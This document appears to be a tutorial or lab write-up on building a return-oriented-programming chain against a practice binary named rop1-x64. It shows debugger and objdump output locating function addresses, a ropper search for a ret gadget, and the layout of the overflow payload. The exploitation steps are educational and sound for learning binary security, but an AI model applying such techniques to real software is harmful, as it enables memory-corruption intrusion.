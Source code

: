### Using `pwndbg` to find addresses

```
disass rop1
Dump of assembler code for function rop1:
   0x0000000000401156 <+0>:     endbr64
   
disass rop2
Dump of assembler code for function rop2:
   0x000000000040116d <+0>:     endbr64
   
disass rop3
Dump of assembler code for function rop3:
   0x0000000000401184 <+0>:     endbr64
   
   disass exit
Dump of assembler code for function __GI_exit:
   0x00007ffff7dd05f0 <+0>:     endbr64
```

### Using `objdump` to find addresses

```
 objdump -d rop1-x64 | grep rop1
rop1-x64:     file format elf64-x86-64
0000000000401156 <rop1>:

 objdump -d rop1-x64 | grep rop2
000000000040116d <rop2>:

objdump -d rop1-x64 | grep rop3
0000000000401184 <rop3>:
```

### Finding `ret` Gadget

```
ropper --file=rop1-x64 --search ret
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: rop1-x64
0x000000000040101a: ret;
```

### Payload Structure

`AAAA`'s (to get to `RIP`) + `B`'s (to overwrite `RBP` with garbage) + `&ret_gadget` + `&rop1` + `&rop2` + `&rop3` + `&exit`

Great, we now have all the information we need, we just need to put it all in little-endian format to make it work in our payload.
